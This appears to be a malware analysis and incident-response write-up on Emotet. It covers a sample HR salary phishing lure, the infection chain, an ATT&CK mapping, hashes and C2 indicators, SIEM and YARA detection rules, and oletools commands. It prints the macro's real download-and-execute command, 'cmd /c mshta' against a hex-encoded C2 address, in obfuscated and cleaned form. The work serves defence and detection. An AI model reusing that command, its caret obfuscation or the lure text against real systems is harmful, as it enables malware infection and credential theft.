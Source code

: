 # Emotet - The Malware Kingpin Exposed | Complete DFIR and malware analysis

What is Emotet?
Emotet is a sophisticated, modular banking Trojan that evolved into a botnet used to deliver other types of malware such as ransomware (e.g., Ryuk, Conti) and steal sensitive information. It is primarily known for its highly effective phishing campaigns and worm-like propagation.

Initially discovered in 2014, Emotet was designed to steal banking credentials, but it later developed into a malware-as-a-service (MaaS) platform used by multiple cybercrime groups.

  Why Emotet is famous
1. Modular Architecture
Emotet consists of a main loader and multiple modules. The loader installs Emotet, maintains persistence, and downloads additional modules, including:
- Credential stealer
- Email harvester
- Spam bot
- Malware downloader (for TrickBot, QakBot, Ryuk, etc.)

2. Polymorphic Code
Emotet changes its payload structure frequently to avoid antivirus detection using polymorphism, where the malware dynamically alters its code during replication.

3. Command and Control (C2) Infrastructure
The botnet uses encrypted C2 communication and hardcoded IP lists for redundancy. Its architecture is often peer-to-peer, enhancing its resilience against takedowns.

-------------------------------------------------------------------------------------
Email Lures

From: hr-payroll@company-internal.com
To: employee@company.com
Subject: FY2025 Salary Adjustment Notice

Hi,

We’ve completed the annual compensation review. Your salary adjustment details are in the attached confidential memo.

Please do not share this document externally.

Regards,  
Meera Chauhan  
HR Manager – Compensation  
Company Internal HR  
Attachment: Salary_Adjustment_FY2025.doc
---------------------------------------------------------------------------------------
[Phishing Email]
     |
     v
[Malicious Word/Excel Doc w/ Macro]
     |
     v
[User Enables Macros]  --- the macro code contained the dropper and execution from the trusted paths / folders 
     |
     v
[Emotet Loader Execution]
     |
     v
[Connects to C2 Server]
     |
     +--> [Download Modules]
     |         ├─ Credential Stealer
     |         ├─ Email Stealer
     |         └─ Propagation Tools
     |
     +--> [Dropper for Payloads]
               ├─ TrickBot
               ├─ QakBot
               └─ Ransomware (e.g., Ryuk)

----------------------------------------------------------------
MITRE ATT&CK Mapping for Emotet
Initial Access	Phishing: Spearphishing Attachment -	T1566.001
Execution	User Execution: Malicious Document	- T1204.002
Persistence	Registry Run Keys / Startup Folder -	T1547.001
Privilege Escalation	Process Injection -	T1055
Defense Evasion	Obfuscated Files or Information -	T1027
Credential Access	Credentials from Web Browsers -	T1555.003
Discovery	System Information Discovery -	T1082
Lateral Movement	SMB/Windows Admin Shares -	T1021.002
Command & Control	Encrypted Channel over HTTP/S -	T1573.001
Collection	Email Collection -	T1114
Impact	Data Encrypted for Impact (via Ryuk) -	T1486

----------------------------------------------------------------
Emotet: Indicators of Compromise (IOCs)
Hashes (Sample Payloads)
SHA256: 3c8b3b7db9fcb73a3b55e9e4bb5c9d5c68d42128c87e478f92e165ba2ecf4e2a
SHA256: 21db61f8e72e2b237d84e78c8cbfb3834e38f229e7fcce44edb77293e4e18f3a

Known C2 IPs / Domains (frequently rotate)
185.149.120.14
185.7.214.7
45.95.168.196
forextart.com
gloryhotel[.]top

Filenames Used
INVOICE_458273.doc
Shipment_Tracking_032023.xls
Resume_JamesBrown.doc

File Paths

C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Templates\randomname.exe
C:\ProgramData\<random>.exe

------------------------------------------------------------------

SIEM detection ---

title: Emotet Execution via Office Macros
id: a1b2c3d4-5678-90ab-cdef-1234567890ef
status: stable
description: Detects suspicious use of Office applications spawning PowerShell or CMD indicative of Emotet infection
author: Security_analyst
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - Image
  - User
  - Hostname
level: high
tags:
  - attack.execution
  - attack.t1204.002
  - malware.emotet

------------------------------------------------
Yara rule 

rule Emotet_Loader_Detection
{
    meta:
        description = "Detects Emotet malware loader"
        author = "security_analyst"
        date = "2025-04-12"
        malware_family = "Emotet"
        reference = "https://malpedia.caad.fkie.fraunhofer.de/details/win.emotet"
    strings:
        $mz = { 4D 5A }                         // PE Header
        $http1 = "GET / HTTP/1.1" ascii
        $ua1 = "User-Agent: Mozilla/5.0" ascii
        $c2str = ".php?id=" ascii
        $exe_indicator = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii
        $randexe = "temp" ascii wide
        $email_harvest = "Outlook.Application" ascii
    condition:
        uint16(0) == 0x5A4D and
        all of ($mz*) and
        3 of ($http1, $ua1, $c2str, $exe_indicator, $email_harvest)
}
----------------------------------------------------------------
Emotet analysis --

sudo mraptor -m emotet.xls -- to detect the macros
sudo msodde -a emotet.xls  -- to detect the DDE links
sudo oleobj emotet.xls -v  -- oleobj is a script to extract embedded objects from OLE files.
sudo olebrowse emotet.xls  -- browser based olevba analysis 
								--- save it in the .bin (stream file)
								
sudo cat stream.bin

sudo oleid emotet.xls  
sudo olevba emotet.xls
sudo olevba emotet.xls --decode  ---  showing all obfuscated strings decoded
sudo olevba emotet.xls --reveal  -- macro source code with VBA strings deobfuscated

----------------
Original: cmd /c m^sh^t^a h^tt^p^:/^/0xb907d607/c^c.h^tm^l"

Cleaned version: cmd /c mshta http://0xb907d607/cc.html

hexadecimal to IP address -- https://www.browserling.com/tools/hex-to-ip
			0xb907d607  === 185.7.214.7

----------------------------------------
sudo qu1cksc0pe --file emotet.xls --vtFile
sudo qu1cksc0pe --file emotet.xls --domain
sudo qu1cksc0pe --file emotet.xls --docs

------------------------------------------------------------


This Excel file contains a hidden malicious macro (a small program) that runs automatically when the file is opened. Here's what it does:

1. What Happens When You Open the File?
The macro Auto_Open triggers immediately (like an autostart virus).

It runs a hidden command that downloads and executes malware from a attacker’s server.

2. The Malicious Command (Deobfuscated)
The macro contains an obfuscated (hidden) command:

cmd
cmd /c mshta http://0xb907d607/cc.html
cmd /c → Runs a command in the Windows terminal.

mshta → Executes a malicious HTML file (often used to run scripts silently).

http://0xb907d607/cc.html → An attacker-controlled website (IP in hex: 185.7.214.7).

3. What Does This Do?
Downloads malware from http://185.7.214.7/cc.html.

Executes it silently using mshta (Microsoft HTML Application).

Likely installs Emotet (a dangerous banking trojan/spyware) or ransomware.

4. Red Flags
Auto-execution (runs as soon as Excel opens).
Obfuscated URLs (hidden in hex & with ^ to evade detection).
Uses mshta (a common malware trick to bypass security).
Connects to a shady IP (185.7.214.7 – likely a malware server).
